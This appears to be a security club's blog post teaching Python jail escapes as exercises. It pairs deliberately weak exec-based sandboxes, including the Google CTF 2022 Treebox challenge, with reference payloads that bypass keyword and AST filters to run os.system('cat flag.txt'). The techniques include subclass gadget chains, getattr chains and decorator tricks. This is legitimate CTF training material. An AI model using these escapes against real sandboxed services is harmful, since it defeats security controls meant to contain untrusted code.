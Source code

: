 ```yaml
---
layout: post
title: "Python Jail Escapes"
categories: learning
author: Liam
---
```


At our weekly meetings we had a talk about Python jail escapes, aka. getting around restrictions that make it hard to execute `os.system('cat flag.txt')`. In the talk we went through challenges, that we present here as exercises to practice. Starting very simple and then digging more and more into python internals.

Solve them yourself, by copying the script and providing input that executes `os.system('cat flag.txt')`. Afterwards you can compare your solution to the one we had in mind, there are always different ways. For some reference solutions it is relevant to mention, that we used Python 3.11.2.

Learning about Python Jail Escapes it is helpful to ask questions like:
* How are modules and classes implemented in Python?
* What are frozen modules?
* How does syntactic sugar get replaced? You may start at `import something` or `array[5]`.
* How many ways are there to call a function/method other than `lmao()`/`lm.oa()`?

## Happens way too often

```python
import string

code = input('Your scientific computation: ')

code = ''.join([c for c in code if c in string.printable])

forbidden = ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']
for f in forbidden:
    code = code.replace(f, '')
exec(code)
```

<details>
<summary>Reference Solution</summary>

No need for recursivity. This is Python not Haskell.

<code>imosport ooss; ooss.sysostem('cat flag.txt')</code>
</details>

## Correct, or jail

```python
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']:
    if keyword in code:
        print('You are jailed!')
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

There is a `for/else` in Python???!!? Ah, and obviously:

<code>globals()['__built'+ 'ins__'].__dict__['__im' + 'port__']('o' + 's').__dict__['sys' + 'tem']('cat flag.txt')</code>
</details>

## Only causing trouble

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Based solution:

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[''.join(['sy', 'stem'])]('cat flag.txt')</code>
</details>

## Ahhhhhhhhhh, no more fun for you

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+', '"', "'"]:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Are there simpler solutions to construct a string? Yes. Does this one get you the flag? Also, yes. So why are you asking?

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[().__str__()[:0].join([i.to_bytes().decode() for i in [115, 121, 115, 116, 101, 109]])](().__str__()[:0].join([i.to_bytes().decode() for i in [99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]]))</code>
</details>

## Now it is over, isn't it?

```python 
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins',
                '.', '[', ']']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

it is not over until you remove getattr

<code>getattr(getattr(getattr(globals(), 'get')('__bu' + 'iltins__'), '__imp' + 'ort__')('o' + 's'), 'sys' + 'tem')('cat flag?txt')</code>
</details>




## Treebox

From [Google Capture The Flag 2022](https://ctftime.org/event/1641/)

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

<details>
<summary>Reference Solution</summary>

Our solution, specifically the solution of Benedikt, looked something along the lines of:

<code>
class NotACall(Exception):
    __add__ = exec


try:
    raise NotACall
except NotACall as e:
    e + 'import os; os.system("cat flag.txt");exit(0)'
--END
</code>
</details>

## Treebox is no match for Robin

This a modified version of the treebox challenge, here to point out a particular way to solve the challenge.

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if '(' in line or ')' in line:
        print("ERROR: Parentheses are not allowed")
        exit(1)
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
else:
    print("ERROR: Code is not safe")
    exit(1)
```

<details>
<summary>Reference Solution</summary>

Also, no match for Robin, we yet have to find anything that is.

Solution by Robin Jadoul:
<code>
# https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass
--END
</code>
</details>

